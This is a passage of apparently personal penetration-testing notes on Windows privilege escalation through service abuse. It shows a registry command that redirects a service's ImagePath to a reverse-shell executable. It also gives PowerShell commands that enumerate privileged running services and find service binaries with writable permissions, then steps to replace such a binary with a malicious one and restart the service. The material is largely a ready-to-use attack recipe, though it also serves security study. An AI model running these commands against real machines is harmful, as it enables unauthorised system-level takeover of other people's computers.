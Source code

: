 Replace registry entry with your own

```powershell

reg add HKLM\system\currentcontrolset\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d "C:\Users\user\AppData\Local\Temp\priv\rev4444.exe" /f

The operation completed successfully.
```

Now just start the service again and await reverse shell.



## Hijacking

### Binary

1. Find running services

```powershell

# check for running services
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

# check for privileged services

Get-CimInstance -ClassName win32_service | Select Name,State,PathName,StartName,StartMode | Where-Object {$_.State -like 'Running' -and ($_.StartName -like '*LocalSystem' -or $_.StartName -like 'NT AUTHORITY')}

# check specific service

# using Where-Object {$_.Name -like 'mysql'}

Get-CimInstance -ClassName win32_service | Select Name,State,PathName,StartName,StartMode | Where-Object {$_.Name -like 'service0815'}

```

Alternativekly use powerups funtion `Get-ModifiableServiceFile`.

2. Find writable binary 

```powershell

Get-CimInstance -ClassName win32_service | Where-Object {$_.State -like 'Running'} | ForEach-Object { $path = $_.PathName -replace '^"([^"]*)".*$','$1' -replace '^(.*\.exe).*','$1'; Write-Output "Permissions for $path"; & icacls $path }


```

3. Replace writable binary with a malicious one
4. Restart service or Reboot the machine
